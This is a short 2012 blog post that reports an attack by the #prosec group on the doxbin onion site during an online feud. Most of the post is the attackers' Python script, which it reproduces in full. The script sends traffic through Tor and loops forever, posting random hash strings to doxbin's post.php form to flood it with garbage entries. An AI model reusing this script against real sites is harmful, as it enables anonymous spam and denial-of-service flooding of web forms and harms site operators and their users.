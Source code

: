 ```yaml
---
comments: true
date: "2012-04-11T18:42:43Z"
tags:
- nerdwar
- infosec
- prosec
- doxbin
title: '#Prosec Attacks on Doxbin'
---
```


Looks like #prosec is [nerdraging][1] on [@doxbin][2]. The effects can be seen
[here][3]. The attack I noticed first was a semi-lame HTTP POST attack that
floods doxbin with garbage "dox". Code here:

{{< highlight python >}}
#!/usr/bin/python

import socks
#google it, it's a common python extension
import socket
#127.0.0.1:9050 is the default TOR socks4 proxy
#this connects to TOR
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS4, "127.0.0.1", 9050)
socket.socket = socks.socksocket
from httplib import *
from urllib import *
import random
import time
import hashlib

times = 1
while 1:
	############DOX############
	doxrand = random.choice('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890')
	dox = hashlib.sha224(doxrand).hexdigest()
	print dox
	#doxrand = picking a random character
	#dox = SHA hashing of the random character defined in doxrand
	##############NAEM###########
	naemrand = random.choice('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890')
	naem = hashlib.sha224(naemrand).hexdigest()
	print naem
	#same as above
	##############

	connection = HTTPConnection("doxbinumfxfyytnh.onion")
	#establishing HTTP conenction to website
	head = {"Content-Type" : "application/x-www-form-urlencoded", "Accept" : "text/plain"}
	#constructing the header, so the webserver will respond properly
	parameters = urlencode({"naem" : naem, "dox" : dox})
	#defining the data to be used during POST, note naem and dox refer to the random strings from ealier
	#they must correspond to the ID fields from the web form, otherwise..it won't work
	connection.request("POST", "/post.php", parameters, head)
	#pushing the data to the post function of the php file
	print 'Connection OK...Continuing..'
	print 'Spammed', 
	print times, 
	print 'times!'
	times = times + 1
	time.sleep(30) #in seconds
	#self explanitory
{{< / highlight >}}

Now, however, it looks like there are 403 Forbidden errors. I'm thinking Nachash
will get things running again soon.


[1]: http://pastebin.com/eVpCrD47
[2]: http://twitter.com/#!/doxbin
[3]: https://doxbinumfxfyytnh.tor2web.org/

